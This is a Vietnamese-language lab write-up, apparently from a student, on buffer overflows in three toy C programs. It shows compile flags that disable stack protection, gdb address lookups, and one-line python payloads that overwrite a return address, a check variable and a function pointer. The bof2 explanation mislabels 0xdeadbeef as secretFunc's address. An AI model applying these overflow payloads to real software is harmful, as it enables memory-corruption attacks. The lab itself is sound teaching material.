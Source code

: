 # Lab#1: Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.

## bof1.c
Ở đây chúng ta có đoạn code bof1.c này: 

![Code bof1](/image/Lab1/bof1_1.png)

Ta đuợc biết là hàm gets() là một hàm nhập dữ liệu nhưng không giới hạn số lượng đầu 

> --> dễ bị overflow

#### Ở đây chúng ta có Stack Frame:

![Stack frame](/image/Lab1/bof1_2.png)

Có thể thấy rằng chúng ta có thể lợi dụng được lỗ hổng của hàm gets() để dễ dàng overflow lên phần return address của vuln() --> chuyển qua secretFunc()

#### Compile file bof1 bằng lệnh: 
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`

![Compile ct](/image/Lab1/bof1_5.png)

Sau đó, vào gdb `gdb -q bof1.out` để lấy địa chỉ của secretFunc() `disas secretFunc`

![SecretFunc Address](/image/Lab1/bof1_3.png)

--> `0x0804846b` là địa chỉ của `secretFunc()`

Để gây ra overflow chúng ta sẽ có lệnh 
`echo $(python -c "print('a'*204 +'\x6b\x84\x04\x08')") | ./bof1.out` để tự động nhập vào chương trình
> với `'a'*204` --> chèn hết 204 bytes còn 4 bytes cuối chúng ta sẽ chèn địa chỉ của secretFunc (`\x6b\x84\x04\x08`) chúng ta đã lấy được.

#### Kết quả:

![Overflow success](/image/Lab1/bof1_4.png)





## bof2.c

Ở đây chúng ta có đoạn code bof2.c này:

![Code bof2](/image/Lab1/bof2_1.png)

Khác ở bof1, chúng ta sử dụng hàm fgets thay vì gets để có thể giới hạn số lượng kí tự nhập vào. 

Chẳng may là người tạo ra chương trình không biết vì sơ suất hay cố ý đã cho người dùng nhập nhập vào là 45 bytes mặc dù buf chỉ có 40

> --> dễ bị overflow

#### Ở đây chúng ta có Stack Frame:

![Stack Frame](/image/Lab1/bof2_2.png)

Cũng giống như bof1, ở đây chúng ta phải thay đổi `check` thành `0xdeadbeef` bằng cách overflow từ `buf` để ghi đè lên `check`

#### Compile file bof2 bằng lệnh: 
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`

![Compile bof2](image.png)

Để gây ra overflow chúng ta sẽ có lệnh 
`echo $(python -c "print('a'*40 +'\xef\xbe\xad\xde')") | ./bof2.out` để tự động nhập vào chương trình
> với `'a'*40` --> chèn hết 40 bytes còn 4 bytes cuối chúng ta sẽ chèn địa chỉ của secretFunc (`\xef\xbe\xad\xde`) chúng ta đã lấy được.

#### Kết quả:

![Overflow Succes](/image/Lab1/bof2_4.png)




## bof3.c

Ở đây chúng ta có đoạn code bof3.c này:

![Code bof3.c](/image/Lab1/bof3_1.png)

Giống như bof2, người dùng được nhập vào 133 bytes trong khi buf chỉ có 128 bytes

> --> dễ bị overflow

#### Ở đây chúng ta có Stack Frame

![Stack Frame](/image/Lab1/bof3_2.png)

Từ đây, chúng ta có thể tiếp tục gây ra overflow để ghi đè lên pointer `*func` chỉ đến từ sup() thành shell()

#### Compile file bof3 bằng lệnh: 
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`

![Compile bof3](/image/Lab1/bof3_3.png)

Sau đó, vào gdb `gdb -q bof3.out` để lấy địa chỉ của shell() `disas shell`

![ShellFunc Address](/image/Lab1/bof3_4.png)

--> `0x0804845b` là địa chỉ của `shell()` 

Để gây ra overflow chúng ta sẽ có lệnh
`echo $(python -c "print('a'*128+'\x5b\x84\x04\x08')") | ./bof3.out` để tự động nhập vào chương trình

> với `'a'*128` --> chèn hết 128 bytes còn 4 bytes cuối chúng ta sẽ chèn địa chỉ của shell() (`\x5b\x84\x04\x08`) chúng ta đã lấy được.

#### Kết quả

![Overflow Success](/image/Lab1/bof3_5.png)